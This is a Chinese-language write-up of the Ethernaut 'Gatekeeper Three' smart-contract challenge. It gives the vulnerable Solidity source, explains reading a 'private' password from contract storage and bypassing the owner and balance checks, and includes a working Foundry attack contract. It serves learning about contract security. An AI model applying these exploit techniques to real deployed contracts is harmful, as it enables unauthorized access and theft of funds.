

## Gatekeeper_three

### 目标：

依旧通过守门人，成功注册成为参赛者

### 思路：

先成功调用`getAllowance`函数，使`allowEntrance = true`。那就需要知道password,成功调用`checkPassword`函数即可，password利用`cast storage `读取插槽即可获取，首先需要先获取`SimpleTrick`合约的地址，利用`cast call 0x388eC0A533443477C47d004a0EA28AC357EdDaaB "trick()(address)" --rpc-url $RPC_URL`，再查询第二个插槽，转换为10进制即可获取。但是查地址之前要先调用`createTrick()`函数，才能成功创建`SimpleTrick `合约。第三关先要调用`construct0r()`函数，使owner = msg.sender，然后向这个合约转钱，大于要求即可，攻击合约不要写`receive`函数，

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

### poc：

```
// SPDX-License-Identifier:MiT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Three.sol";

contract Middle_contract{
    GatekeeperThree _three = GatekeeperThree(payable(0x388eC0A533443477C47d004a0EA28AC357EdDaaB));

    constructor() payable{}

    function hack() external{
        _three.construct0r();
        uint256 _password = 1779454500;
        _three.getAllowance(_password);

        (bool success, ) = address(_three).call{value:0.002 ether}("");
        require(success,"Failed");

        _three.enter();
    }
}


contract Attack is Script{
    function run() external{

        vm.startBroadcast();

        Middle_contract middle_contract = new Middle_contract{value: 0.002 ether}();
        middle_contract.hack();

        vm.stopBroadcast();
    }
}
```


